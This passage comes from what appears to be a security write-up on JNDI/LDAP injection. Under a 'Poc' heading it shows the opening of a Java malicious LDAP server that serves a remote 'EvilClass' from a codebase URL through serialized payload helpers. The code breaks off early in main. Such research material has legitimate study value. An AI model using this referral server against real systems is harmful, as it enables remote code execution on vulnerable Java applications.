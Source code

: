 [![serialize3.png](assets/1699929760-63b202747f3903fa1c07c90c2286c731.png)](https://storage.tttang.com/media/attachment/2022/05/25/6f3b9090-de13-46b7-9447-5058855844cc.png)

#### [Poc](#toc_poc_1)

```bash
import com.alter.JNDI_LDAP.util.serializeObject;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;


import static com.alter.JNDI_LDAP.util.serializeObject.getPayload;
import static com.alter.JNDI_LDAP.util.serializeObject.serializeObject;

public class Ldap {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main(String[] argsx) {
        String[] args = new String[]{"http://127.0.0.1:8000/#EvilClass", "1389"};
        int port = 0;
        if (args.length < 1 || args[0].indexOf('#') < 0) {
            System.err.println(Ldap.class.getSimpleName() + " <codebase_url#classname> [<port>]"); //$NON-NLS-1$
            System.exit(-1);
        } else if (args.length > 1) {
            port = Integer.parseInt(args[1]);
        }
```